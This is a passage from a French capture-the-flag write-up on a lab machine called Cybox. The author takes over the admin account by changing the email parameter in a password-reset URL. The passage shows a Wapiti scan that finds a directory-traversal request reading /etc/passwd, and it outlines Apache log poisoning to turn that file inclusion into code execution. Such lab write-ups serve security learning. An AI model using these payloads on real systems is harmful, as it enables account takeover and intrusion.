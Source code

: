 Cette fois dans le webmail j'ai reçu un email en provenance de `daemon` avec un lien pour changer mon mot de passe :

> Hello user, here is the link to update your password in Cybox Monitor:
> http://monitor.cybox.company/updatePasswordRequest.php?email=devloop@cybox.company

On remarque que l'adresse email est donnée en paramètre au script au lieu d'y trouver un hash unique permettant le changement de mot de passe.

Je charge donc cette URL mais en mettant admin@cybox.company à la place. Le formulaire accepte le changement de mot de passe sans broncher.

Je peux désormais me connecter sur `Monitor` en tant qu'admin mais là déception : le nouveau lien `Admin panel` retourne une indication *Under construction*.

En étant un peu curieux on remarque dans le code HTML l'utilisation d'un script PHP pour obtenir la stylesheet du site, ce qui est surprenant :

```html
<link href="styles.php?style=general" type="text/css" rel="stylesheet">
```

Je passe ça directement à `Wapiti`. Comme la page est accessible seulement si connecté en tant qu'administrateur il faut aussi spécifier le cookie :

```bash
wapiti -u "http://monitor.cybox.company/admin/styles.php?style=general" --scope url -H "Cookie: PHPSESSID=q1raqsm48b1g4u94cie9j4b6r3;" -v2 --color
```

Une faille de directory traversal est aussitôt détectée :

```
---
Linux local file disclosure vulnerability in http://monitor.cybox.company/admin/styles.php via injection in the parameter style
Evil request:
    GET /admin/styles.php?style=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd%00 HTTP/1.1
    host: monitor.cybox.company
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    cookie: PHPSESSID=q1raqsm48b1g4u94cie9j4b6r3;
---
```

Pour vérifier que le script PHP fait une interprétation du code PHP lut et non une simple lecture je passe le chemin du script `phpinfo` vu plus tôt (`/opt/bitnami/apache2/htdocs/dev/phpinfo.php`) et j'obtiens bien l'output espéré :)

## loggedin

Maintenant il faut transformer notre LFI en RCE. La technique classique consiste à charger un fichier de log d'Apache dans lequel on aura injecté notre code PHP par exemple en émettant une requête HTTP avec le code dans l'entête HTTP `User-Agent`.
